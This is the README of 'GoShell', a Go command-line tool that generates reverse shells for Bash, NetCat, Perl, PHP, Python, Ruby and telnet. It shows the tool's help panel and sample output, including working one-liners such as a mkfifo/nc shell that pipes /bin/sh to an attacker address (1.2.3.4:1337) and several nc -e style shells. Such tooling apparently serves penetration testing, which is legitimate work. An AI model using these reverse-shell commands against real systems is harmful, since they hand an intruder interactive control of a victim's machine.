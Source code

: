 # GoShell
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com) [![forthebadge](https://forthebadge.com/images/badges/you-didnt-ask-for-this.svg)](https://forthebadge.com)

Generate reverse shells in command line.

## Usage
This panel appears when typing `./goshell -h` :
```
USAGE:
   goshell [global options] command [command options] [arguments...]

COMMANDS:
   bash     Generate a Bash reverse shell
   nc       Generate NetCat reverse shells
   perl     Generate Perl reverse shells
   php      Generate a PHP reverse shell
   python   Generate a Python reverse shell
   ruby     Generate a Ruby reverse shell
   telnet   Generate a telnet reverse shell
   help, h  Shows a list of commands or help for one command

COMMAND OPTIONS:
   --ip value    (default: "127.0.0.1")
   --port value  (default: "8080")
   --help, -h    show help (default: false)

GLOBAL OPTIONS:
   --help, -h  show help (default: false)
```

## Examples
It is possible to provide the attacker IP address and listening port with the flags `-ip` and `-port`.
```
> ./goshell bash -ip 1.2.3.4 -port 1337                                                                                                            ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 1337 >/tmp/f

> ./goshell nc                                                                                                                                 ~/dev/go/goshell
GoShell - (c)2020 - ezekiel
Note that those shells may not work on your target !

#1: nc -e /bin/sh 127.0.0.1 8080
#2: /bin/sh | nc 127.0.0.1 8080
#3: rm -f /tmp/p; mknod /tmp/p p && nc 127.0.0.1 8080 0/tmp/p
```

## Sources
* [highon.coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
* [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)